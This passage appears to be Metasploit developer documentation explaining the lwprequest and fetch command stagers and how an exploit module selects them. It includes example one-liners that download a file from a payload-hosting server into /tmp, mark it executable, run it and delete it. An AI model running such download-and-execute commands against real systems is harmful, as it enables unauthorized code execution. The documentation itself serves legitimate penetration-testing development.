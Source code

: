 ```bigquery
lwp-request -m GET http://10.5.135.201:8080/mdkwKcdGCtU > /tmp/OKOnDYwn;chmod +x /tmp/OKOnDYwn;/tmp/OKOnDYwn;rm -f /tmp/OKOnDYwn

```

To use the lwprequest stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'lwprequest' ]
```

Or set the :lwprequest key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :lwprequest)
```


## Fetch Command Stager - BSD Only

The [fetch](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/fetch.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `fetch` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:

```bigquery
fetch -qo /tmp/UGWuPPcy http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/UGWuPPcy;/tmp/UGWuPPcy;rm -f /tmp/UGWuPPcy
```
To use the fetch stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'fetch' ]
```

Or set the :fetch key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :fetch)
```
